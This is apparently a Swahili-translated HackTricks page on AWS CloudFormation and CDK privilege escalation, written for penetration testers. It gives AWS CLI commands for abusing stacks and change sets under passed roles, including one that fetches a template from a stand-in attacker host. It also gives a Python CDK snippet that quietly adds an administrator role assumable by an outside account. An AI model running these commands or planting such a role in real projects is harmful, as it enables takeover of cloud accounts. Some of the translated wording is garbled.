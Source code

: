 # AWS - Cloudformation Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## cloudformation

Kwa maelezo zaidi kuhusu cloudformation angalia:

{{#ref}}
../../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### `iam:PassRole`, `cloudformation:CreateStack`

Mshambuliaji mwenye ruhusa hizi **anaweza kuongeza mamlaka** kwa kutunga **CloudFormation stack** na kiolezo maalum, kilichohifadhiwa kwenye seva yao, ili **kutekeleza vitendo chini ya ruhusa za jukumu lililobainishwa:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Katika ukurasa ufuatao una mfano wa **kuvamia** na ruhusa ya ziada **`cloudformation:DescribeStacks`**:

{{#ref}}
iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md
{{#endref}}

**Athari Zinazoweza Kutokea:** Privesc kwa jukumu la huduma ya cloudformation lililotajwa.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

Katika kesi hii unaweza **kuitumia stack ya cloudformation iliyopo** kuisasaisha na kupandisha ruhusa kama ilivyo katika hali ya awali:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
Ruhusa `cloudformation:SetStackPolicy` inaweza kutumika **kujiwezesha ruhusa ya `UpdateStack`** juu ya stack na kutekeleza shambulio.

**Athari Zinazoweza Kutokea:** Privesc kwa jukumu la huduma la cloudformation lililotajwa.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Ikiwa una ruhusa hii lakini **hakuna `iam:PassRole`** bado unaweza **kusasisha stacks** zinazotumika na kutumia **IAM Roles ambazo tayari zimeunganishwa**. Angalia sehemu ya awali kwa mfano wa matumizi (usionyeshe jukumu lolote katika sasisho).

Ruhusa `cloudformation:SetStackPolicy` inaweza kutumika **kujiwezesha ruhusa ya `UpdateStack`** juu ya stack na kutekeleza shambulio.

**Athari Zinazoweza Kutokea:** Privesc kwa jukumu la huduma la cloudformation lililotajwa tayari.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Mshambuliaji mwenye ruhusa za **kupitisha jukumu na kuunda & kutekeleza ChangeSet** anaweza **kuunda/kusasisha stack mpya ya cloudformation na kutumia jukumu za huduma za cloudformation** kama ilivyo kwa CreateStack au UpdateStack.

Shambulio linalofuata ni **tofauti ya**[ **CreateStack moja**](#iam-passrole-cloudformation-createstack) ikitumia **ruhusa za ChangeSet** kuunda stack.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
Ruhusa `cloudformation:SetStackPolicy` inaweza kutumika **kujipewe ruhusa za `ChangeSet`** juu ya stack na kufanya shambulio.

**Athari Zinazoweza Kutokea:** Privesc kwa majukumu ya huduma ya cloudformation.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Hii ni kama njia ya awali bila kupitisha **majukumu ya IAM**, hivyo unaweza tu **kutumia yale yaliyounganishwa tayari**, badilisha tu parameter:
```
--change-set-type UPDATE
```
**Madhara Yanayoweza Kutokea:** Privesc kwa huduma ya cloudformation ambayo tayari imeunganishwa.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Mshambuliaji anaweza kutumia ruhusa hizi kuunda/update StackSets ili kutumia majukumu ya cloudformation yasiyo na mipaka.

**Madhara Yanayoweza Kutokea:** Privesc kwa majukumu ya cloudformation.

### `cloudformation:UpdateStackSet`

Mshambuliaji anaweza kutumia ruhusa hii bila ruhusa ya passRole ili kuboresha StackSets kutumia majukumu ya cloudformation yaliyounganishwa.

**Madhara Yanayoweza Kutokea:** Privesc kwa majukumu ya cloudformation yaliyounganishwa.

## AWS CDK

AWS cdk ni zana inayowezesha watumiaji kufafanua miundombinu yao kama msimbo katika lugha wanazozijua tayari, pamoja na kuruhusu urahisi wa kutumia sehemu tena. CDK kisha inabadilisha msimbo wa kiwango cha juu (yaani python) kuwa templeti za Cloudformation (yaml au json).

Ili kutumia CDK, mtumiaji wa kiutawala lazima kwanza aweke msingi wa akaunti, ambayo inaunda majukumu kadhaa ya IAM, ikiwa ni pamoja na *exec role*, ambayo ina ruhusa \*/\*. Majukumu haya yanafuata muundo wa majina `cdk-<qualifier>-<name>-<account-id>-<region>`. Kuweka msingi lazima kufanyike mara moja kwa kila eneo kwa kila akaunti.

Kwa kawaida, watumiaji wa CDK hawana uf access wa kuorodhesha majukumu yanayohitajika kutumia CDK, ikimaanisha kuwa utahitaji kuyatambua kwa mikono. Ikiwa utavunja mashine ya mende au node ya CI/CD, majukumu haya yanaweza kudhaniwa ili kujipa uwezo wa kupeleka templeti za CFN, ukitumia ruhusa ya `cfn-exec` kuruhusu CFN kupeleka rasilimali yoyote, na hivyo kuathiri akaunti hiyo kabisa.

### Kutambua majina ya majukumu

Ikiwa una `cloudformation:DescribeStacks`, majukumu yamefafanuliwa katika stack inayoitwa `CDKToolkit`, na unaweza kuvuta majina kutoka hapo.

Ikiwa uko kwenye mashine ambayo imetumika kujenga na kupeleka miradi ya CDK, unaweza kuvuta kutoka `cdk.out/manafest.json` katika saraka ya mizizi ya miradi.

Pia unaweza kufanya makadirio mazuri kuhusu ni yapi. `qualifier` ni mfuatano unaoongezwa kwa majukumu kuruhusu matukio mengi ya CDK bootstrap kupelekwa kwa wakati mmoja, hata hivyo thamani ya kawaida imeandikwa kwa `hnb659fds`.
```
# Defaults
cdk-hnb659fds-cfn-exec-role-<account-id>-<region>
cdk-hnb659fds-deploy-role-<account-id>-<region>
cdk-hnb659fds-file-publishing-role-<account-id>-<region>
cdk-hnb659fds-image-publishing-role-<account-id>-<region>
cdk-hnb659fds-lookup-role-<account-id>-<region>
```
### Kuongeza msimbo mbaya kwenye chanzo cha mradi

Ikiwa unaweza kuandika kwenye chanzo cha mradi, lakini huwezi kupeleka mwenyewe (kwa mfano, mende anapeleka msimbo kupitia CI/CD, si mashine ya ndani), bado unaweza kuathiri mazingira kwa kuongeza rasilimali mbaya kwenye stack. Ifuatayo inaongeza jukumu la IAM ambalo linaweza kuchukuliwa na akaunti ya mshambuliaji kwenye mradi wa python CDK.
```python
class CdkTestStack(Stack):
def __init__(self, scope: Construct, construct_id: str, **kwargs) -> None:
super().__init__(scope, construct_id, **kwargs)

# ----------
# Some existing code.....
# ----------

role = iam.Role(
self,
"cdk-backup-role", # Role name, make it something subtle
assumed_by=iam.AccountPrincipal("1234567890"), # Account to allow to assume the role
managed_policies=[
iam.ManagedPolicy.from_aws_managed_policy_name("AdministratorAccess") # Policies to attach, in this case AdministratorAccess
],
)
```
## Marejeo

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)
- [https://github.com/aws/aws-cdk-cli/blob/main/packages/aws-cdk/lib/api/bootstrap/bootstrap-template.yaml](https://github.com/aws/aws-cdk-cli/blob/main/packages/aws-cdk/lib/api/bootstrap/bootstrap-template.yaml)

{{#include ../../../../banners/hacktricks-training.md}}
